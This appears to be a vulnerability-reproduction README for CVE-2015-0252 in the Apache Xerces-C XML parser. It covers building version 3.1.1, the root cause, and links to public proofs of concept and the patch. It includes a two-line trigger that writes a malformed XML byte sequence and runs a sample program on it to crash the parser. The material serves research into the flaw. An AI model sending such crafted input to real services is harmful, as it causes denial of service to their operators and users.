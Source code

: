 # CVE-2015-0252

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2015-0252/xerces-c-3.1.1.tar.gz
tar -xvf xerces-c-3.1.1.tar.gz
cd xerces-c-3.1.1
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
printf "\xff\xfe\x00\x00\x3c" > file.xml
./samples/DOMPrint ./file.xml
```

## PoCs

[Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)](https://www.exploit-db.com/exploits/36906/)

[Apache Xerces-C XML Parser Denial Of Service](https://packetstormsecurity.com/files/131756/Apache-Xerces-C-XML-Parser-Denial-Of-Service.html)

## Vulnerability Details & Patch

### Root Cause

The Xerces-C XML parser mishandles certain kinds of
malformed input documents, resulting in a segmentation fault during
a parse operation. The bug does not appear to allow for remote code
execution, but is a denial of service attack that in many applications
may allow for an unauthenticated attacker to supply malformed input
and cause a crash.

### Stack Trace

### Patch

[Diff of /xerces/c/branches/xerces-3.1/src/xercesc/internal/XMLReader.cpp](http://svn.apache.org/viewvc/xerces/c/branches/xerces-3.1/src/xercesc/internal/XMLReader.cpp?r1=1667870&r2=1667869&pathrev=1667870)

## References
